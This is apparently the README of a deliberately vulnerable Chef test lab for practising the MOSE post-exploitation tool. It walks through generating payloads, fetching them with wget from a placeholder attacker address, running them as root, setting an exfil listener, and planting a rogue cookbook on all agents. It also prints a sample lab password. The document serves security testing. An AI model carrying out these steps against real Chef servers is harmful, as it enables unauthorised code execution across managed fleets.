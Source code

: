 # chef-test-lab

[![License](https://img.shields.io/github/license/master-of-servers/chef-test-lab?label=License&style=flat&color=blue&logo=github)](https://github.com/master-of-servers/chef-test-lab/blob/main/LICENSE)
[![Build Status](https://dev.azure.com/jaysonegrace/chef-test-lab/_apis/build/status/master-of-servers.chef-test-lab?branchName=master)](https://dev.azure.com/jaysonegrace/chef-test-lab/_build/latest?definitionId=36&branchName=master)

Used to create a test lab that can be used to work with MOSE and Chef.

**Warning, take heed: This lab should be run in a controlled environment; it contains vulnerable assets.**

## Dependencies
You must download and install the following for this environment to work:
* [Vagrant](https://www.vagrantup.com/downloads.html)
* [Docker](https://docs.docker.com/install/)
* [Docker Compose](https://docs.docker.com/compose/install/)

## Vagrant Lab Build Instructions
To create an environment with a Chef Workstation and a Chef Server that controls multiple agents, run the following command:
```
cd vagrant && make build && make run
```

### To run MOSE against the vagrant chef workstation:

1. Build MOSE using `make build` in the MOSE repo
2. Generate a payload with MOSE: `./mose -c "touch /tmp/BLA && echo test >> /tmp/BLA" -t chef`
3. Login to the chef workstation: `vagrant ssh chef_workstation` (the password is vagrant)
4. Escalate to root with `sudo su`
5. Download the binary from MOSE: `wget http://YOURIPADDRESSGOESHERE:8090/chef-linux`
6. Run the payload: `chmod +x chef-linux; ./chef-linux`
7. Wait for 30 minutes or ssh into one of the agents and kick off the payload manually: `vagrant ssh chef_agent_1` (the password is vagrant) <br>
	7a. Escalate to root with ```sudo su``` <br>
	7b. Run ```chef-client```
8. For this example, you should note that a file has been created in `/tmp` in all of the chef-agent virtual machines, as we specified in step 2.

### To run MOSE against the vagrant chef server:

1. Build MOSE using `make build` in the MOSE repo
2. Generate a payload with MOSE: `./mose -c "touch /tmp/BLA && echo test >> /tmp/BLA" -t chef -l <your local ip address> -ep 9090 -rhost chef-server:10.42.42.10` <br>
	2a. The exfil listener time can be set with the `-ep` parameter <br>
	2b. The `-rhost` parameter is a necessity if running against a chef-server.  
3. Login to the chef server: `vagrant ssh chef_server` (the password is vagrant)
4. Escalate to root with `sudo su`
5. Download the binary from MOSE: `wget http://YOURIPADDRESSGOESHERE:8090/chef-linux`
6. Back on the attacker's system, specify `n` for the target being a workstation and `Y` when prompted for the target being a server
7. Run the payload: `chmod +x chef-linux; ./chef-linux`
8. Use the container that is spawned on the attacking machine as if it were a workstation to get the rogue cookbook into place
9. Wait for 30 minutes or ssh into one of the agents and kick off the payload manually: `vagrant ssh chef_agent_1` (the password is vagrant) <br>
	9a. Escalate to root with ```sudo su``` <br>
	9b. Run ```chef-client```
10. For this example, you should note that a file has been created in `/tmp` in all of the chef-agent virtual machines, as we specified in step 2.

## Docker Lab Build Instructions
To create an environment with a Chef Workstation and a Chef Server that controls a single agent, run the following command:
```
cd docker/basic && make run
```

### To run MOSE against the docker chef workstation:

1. Build MOSE using `make build` in the MOSE repo
2. Wait for 15 minutes or so for the environment to start working. You can track the progress with this command: `while true; do sleep 2; docker logs basic-chef-workstation; done`. You will know it's done when you see this:
```
id:       mysql_pw
password: TheM0stS3cr3T!!!
user:     mysql
```
3. Generate a payload with MOSE: `./mose -c "touch /tmp/test.txt && echo test >> /tmp/test.txt" -t chef -f "${PWD}/payloads/chef-linux"` and be sure to answer `Y` when prompted.
4. Transfer the payload to the chef workstation container: `docker cp payloads/chef-linux basic-chef-workstation:/chef-linux` 
5. Run the payload: `docker exec -i basic-chef-workstation /bin/bash -c "echo 'n' | /chef-linux"`
6. Wait for 30 minutes or exec into the agent and kick off the payload manually: `docker exec -i basic-chef-agent-1 /bin/bash -c "chef-client"`
7. Observe that a file has been created on the agent in `/tmp`: `docker exec -i basic-chef-agent-1 /bin/bash -c "cat /tmp/test.txt"`

**Please note:**
The docker lab does not support transferring payloads to the target via the web server. You can however generate a payload with the `-f` parameter and transfer it via `docker cp`. 

To tear down the test environment, run the following command:
```
make destroy
```

## Credits
The chef server docker container is provided courtesy of this repo: https://github.com/c-buisson/chef-server
